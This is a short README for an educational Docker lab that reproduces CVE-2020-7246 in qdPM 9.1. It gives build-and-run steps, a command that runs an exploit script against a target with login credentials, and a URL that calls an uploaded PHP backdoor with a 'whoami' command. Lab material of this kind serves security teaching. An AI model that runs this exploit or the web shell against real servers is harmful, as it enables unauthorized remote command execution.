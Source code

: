# CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```

## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```

